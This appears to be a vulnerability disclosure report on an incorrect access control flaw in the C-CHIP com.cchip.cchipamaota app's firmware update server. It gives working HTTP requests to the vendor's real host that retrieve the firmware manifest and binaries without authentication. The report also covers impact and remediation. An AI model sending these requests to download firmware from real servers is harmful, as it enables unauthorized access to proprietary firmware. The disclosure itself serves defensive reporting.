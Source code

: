 # Vulnerability Report - com.cchip.cchipamaota- Incorrect Access Control

**Product:** `com.cchip.cchipamaota` 

**Vendor:** [C-CHIP](http://www.c-chip.com.cn/english/)

**Version:** 1.2.8

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.cchip.cchipamaota` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `URL_GET_3266` String value in the `Constants` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002231411105](https://s2.loli.net/2024/10/02/ImyZbFrVCtNgTKh.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/update.json HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200
   Accept-Ranges: bytes
   ETag: W/"4657-1602659827000"
   Last-Modified: Wed, 14 Oct 2020 07:17:07 GMT
   Content-Type: application/json
   Content-Length: 4657
   Date: Wed, 02 Oct 2024 15:03:18 GMT
   
   {
       "updates": [
         {
           "device": "XZX",
           "build": "1362456405",
           "version": "1003",
           "file": [
               "/XZX/XZX_V1003_H1.bin",
               "/XZX/XZX_V1003_H2.bin"
           ],
           "description":"for test",
           "md5":"1506e35363c5f59cb7cde3ea0af83859"
         },
        {
           "device": "GGMMW1A",
           "build": "1562829949",
           "version": "1004",
           "file": [
               "/GGMMW1A/GGMMW1A_V1004_H1.bin",
               "/GGMMW1A/GGMMW1A_V1004_H2.bin"
           ],
           "filesize": [
               "1040384",
               "1040384"
           ],
           "description": "Modified SPP display name",
           "md5": "1506e35363c5f59cb7cde3ea0af83859"
        },
        ......
   ```

   Then, contact the `file` with `https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/`, we can access the firmware directly.

   ```HTTP
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA//GGMMW1A/GGMMW1A_V1004_H1.bin HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002231350187](https://s2.loli.net/2024/10/02/LpJTuyxVoQjEBYO.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.